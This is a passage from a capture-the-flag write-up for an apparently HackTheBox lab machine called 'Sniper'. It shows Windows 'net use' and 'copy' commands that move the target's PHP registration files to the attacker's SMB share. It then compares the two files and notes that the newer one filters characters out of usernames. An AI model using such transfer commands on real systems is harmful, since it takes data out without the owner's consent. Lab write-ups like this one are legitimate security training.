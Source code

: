 
At first, I looked at the two registration files present, as there is an old one and a new one. I copied both files over to my attack machine through the SMB server as such:

```cmd
net use \\10.10.14.63\s
copy registration.php \\10.10.14.63\s
copy registration_old123123123847.php \\10.10.14.63\s
```

Then, I compared the two files with `diff`:

![diff-23](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Sniper/img/diff-23.png)


We can see the new registration file added a few lines of input validation meant to remove the following characters `-$[(_.;&"\` from the supplied username. The genreal registration script looks like this:

![registration-24](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Sniper/img/registration-24.png)
